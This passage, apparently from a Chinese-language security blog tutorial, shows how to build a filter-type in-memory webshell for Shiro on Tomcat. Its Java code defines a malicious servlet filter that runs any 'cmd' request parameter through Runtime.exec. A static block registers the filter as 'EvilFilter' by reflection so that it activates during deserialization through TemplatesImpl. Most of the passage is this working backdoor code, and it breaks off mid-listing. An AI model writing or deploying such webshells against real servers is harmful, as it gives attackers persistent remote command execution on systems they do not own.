 然后开始编写 filter 的主体部分，只需要写一个实现了 filter 接口的类就行，并加上一些必须要 override 的一些方法，由于后面在反序列化当中要用到 TemplatesImpl 用这个类来承载我们的恶意 filter 字节码，所以还要继承 AbstractTranslet。由此我们得到如下的一个恶意 filter

```bash
public class BehinderFilter extends AbstractTranslet implements Filter{

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        Runtime.getRuntime().exec(cmd);
        filterChain.doFilter(servletRequest, servletResponse);
        System.out.println("doFilter");
    }

    @Override
    public void destroy() {
    }
}
```

但这只实现了恶意 filter，并没有把动态注册 filter 的逻辑加进去，所以我们还应该考虑把之前写的代码塞到这里去，塞到哪里呢？在反序列化的时候恶意代码执行的位置一般都放在静态代码段以及构造函数当中，所以在 filter 内存马当中我们将动态注册 filter 的部分代码放到静态代码段中，让其在反序列化的时候就开始执行，最终我们得到 shiro 的 filter 型内存马。  
内存马如下：

```bash
public class BehinderFilter extends AbstractTranslet implements Filter{
    static {
        try {
            //StandardContext
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext context = (StandardContext) webappClassLoaderBase.getResources().getContext();
            //FilterDef
            Filter filter = new BehinderFilter();
            FilterDef filterDef = new FilterDef();
            filterDef.setFilter(filter);
            filterDef.setFilterName("EvilFilter");
            filterDef.setFilterClass(filter.getClass().getName());
            context.addFilterDef(filterDef);
            //FilterConfig
            Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            constructor.setAccessible(true);
            ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(context, filterDef);
            Field field1 = StandardContext.class.getDeclaredField("filterConfigs");
            field1.setAccessible(true);
            Map filterConfigs = (Map)field1.get(context);
```